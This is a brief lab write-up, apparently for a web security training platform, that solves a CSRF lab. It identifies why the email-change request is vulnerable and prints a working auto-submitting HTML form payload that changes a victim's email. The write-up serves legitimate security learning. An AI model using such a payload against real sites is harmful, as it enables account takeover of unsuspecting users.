

# Lab: CSRF vulnerability with no defenses

> Lab Objective: craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
> Note: My Login Credentials `wiener:peter`

- Firstly, I'll login with my Login Credentials `wiener:peter` (as a normal user).
  

- Then try to change my email (to `test@gmail.com`).
  

- When viewing the request of changing the email in Burp Suite, I've noticed that the conditions to a successful CSRF attack are fulfilled, which are:

  - **_A Relevant Action_** (which is email change).
  - **_Cookie-Based Session Handling_** (the application verify the user only via session cookies).
  - **_No Unpredictable Request Parameters_** (there is only one parameter which is the `email`).
  - The Request:
    

- Therefore, I can host the following payload on a server I control, and when the victim visits that site his email will get changed.

  - The Payload:

  ```html
  <body>
    <form
      method="POST"
      action="https://0afe00c603d85f2e826f0c6000a80098.web-security-academy.net/my-account/change-email"
    >
      <input type="email" name="email" value="changed-email@test.com" hidden />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
  ```

- And Finally the lab is solved.
  

---
